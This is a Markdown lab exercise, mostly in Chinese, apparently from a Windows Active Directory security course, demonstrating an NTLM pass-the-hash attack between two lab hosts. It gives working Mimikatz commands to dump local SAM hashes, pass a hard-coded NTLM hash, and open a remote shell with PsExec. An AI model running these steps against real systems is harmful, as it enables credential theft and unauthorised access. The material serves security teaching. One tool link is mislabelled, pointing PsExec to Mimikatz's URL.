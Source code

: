# Exercise 2 - NTLM and Pass-the-Hash

## Tools

需要工具(attacker-tools2)

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Theory

### NTLM For workgroup

![](2022-06-20-22-35-58.png)

### NTLM Attack

![](2022-06-20-22-33-06.png)

## Exercise

本練習中，我們將針對不同電腦間(ad-00、ad-01)相同本機管理員(administrator)的使用者，實作Pass-the-Hash的攻擊，由於ad-00以及ad-01在安裝時administrator的密碼相同，所以攻擊會成立。

- 使用最高權限打開mimikatz

```powershell
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

- 使用mimikatz 取得 local user的password hash

```cmd
privilege::debug
token::elevate
lsadump::sam
```

- 使用mimikatz的PTH模組，開啟一個local admin account的shell
    - 預設安裝的administrator

```powershell
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

- 使用psexec連線ad-01

```powershell
cd C:\attacker-tools
.\PsExec64.exe \\ad-01 cmd
```

確認是否成功連線ad-01

```powershell
whoami
hostname
```
